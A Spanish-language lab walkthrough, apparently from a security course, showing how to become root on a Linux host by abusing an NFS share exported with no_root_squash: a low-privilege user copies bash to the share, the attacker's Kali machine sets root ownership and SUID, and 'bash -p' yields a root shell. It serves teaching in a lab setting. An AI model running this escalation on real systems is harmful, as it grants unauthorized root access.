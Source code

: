# Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: Enumeración NFS. Ejercicio - Configuración de un share de NFS***.


## Ejercicio 1: Convertirse en root por una NFS mal configurada.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
```
ls -l /datos
```

![propietario de bash](../img/lab-04-D/202209101503.png)


Ahora en la maquina ***Kali***.

El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir -p /tmp/share
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.60:/datos /tmp/share
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101823.png)

A través del punto de montaje, podemos ver el archivo ***bash*** que el usuario ***luke*** copió.
```
cd /tmp/share

ls -l
```

Para que el exploit funcione, debemos asignar el permiso ***SUID*** al archivo copiado (***bash***). Al haber montado el share con la opción ***no_root_squash*** habilitata, nos da acceso de administrador a los archivos que allí se encuentren.

Vamos a cambiar el ***propietario*** y asignar el permiso ***SUID*** a ***bash***.
```
sudo chown root.root bash
```

```
sudo chmod +s bash

ls -l bash
```

En la imagen podemos ver el resultado.

![SUID](../img/lab-30-D/202209102213.png)

Un archivo con el permiso ***SUID*** (bit s), puede ser ejecutado por cualquier usuario, pero siempre se ejecuta con el permiso del propietario, que es ***root***.

En la máquina ***ubu_srv_01***, donde hemos iniciado la sesión con el usuario ***luke***, ejecutamos el comando.
Nota: ***-p*** ejecuta la shell en modo privilegiado, de no ponerlo, SUID no tendrá efecto.
```
/datos/bash -p
```

Ahora solo queda preguntar al sistema quién somos.
```
whoami
```

Hemos escalado al ***root*** sin necesidad de conocer la contraseña.

![bash -p](../img/lab-30-D/202209102221.png)

Ya solo queda desmontar el share. En la máquina ***Kali***.
```
cd ~

sudo umount /tmp/share
```

